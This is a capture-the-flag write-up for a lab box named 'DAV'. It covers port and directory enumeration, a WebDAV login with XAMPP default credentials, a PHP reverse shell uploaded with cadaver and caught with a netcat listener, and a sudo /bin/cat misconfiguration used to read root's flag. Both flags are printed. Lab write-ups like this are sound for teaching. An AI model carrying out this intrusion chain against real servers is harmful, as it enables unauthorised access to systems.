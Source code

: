 # DAV

I started with service discovery and then moved into directory enumeration.

```
nmap -p- -sC -sV -oN nmap_initial dav.thm
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Dirsearch found a protected WebDAV area.

```
[00:01:41] 401 -  454B  - /webdav/
[00:01:42] 401 -  454B  - /webdav/index.html
[00:01:42] 401 -  454B  - /webdav/servlet/webdav/
```
<img width="1858" height="967" alt="Screenshot From 2025-09-08 19-03-10" src="https://github.com/user-attachments/assets/7a343c7d-9bf2-46c9-99f6-d5a44812bb9a" />

I browsed to `http://dav.thm/webdav/` and got a login prompt. XAMPP WebDAV is known to ship with default creds, so I tried the pair [documented online](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html).

```
Username: wampp
Password: xampp
```

Login worked. In the directory, I saw a `passwd.dav` file with:

```
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

I tried cracking it with John and Hashcat but didn’t recover a password, and it wasn’t needed to proceed.

Since WebDAV allowed writes, I uploaded a PHP reverse shell using cadaver. I grabbed pentestmonkey’s PHP reverse shell, saved it as `reverse_shell.php`, and set my IP/port.

```
cadaver http://dav.thm/webdav
Username: wampp
Password: xampp
dav:/webdav/> put reverse_shell.php
```

I started a listener and triggered the payload in the browser.

```
nc -nlvp 4444
# in browser: http://dav.thm/webdav/reverse_shell.php
```

This returned a shell as `www-data`. From there I pulled the user flag.

> 449b40fe93f78a938523b7e4dcd66d2a

For privilege escalation, I checked sudo permissions.

```
sudo -l
```

Output showed `www-data` could run `/bin/cat` as root without a password:

```
(ALL) NOPASSWD: /bin/cat
```

I used that to read the root flag directly.

```
sudo /bin/cat /root/root.txt
```

> 101101ddc16b0cdf65ba0b8a7af7afa5

End to end: enumerate → identify WebDAV with default creds → upload PHP reverse shell via cadaver → catch shell as `www-data` → abuse `sudo` NOPASSWD on `/bin/cat` to read `/root/root.txt`.
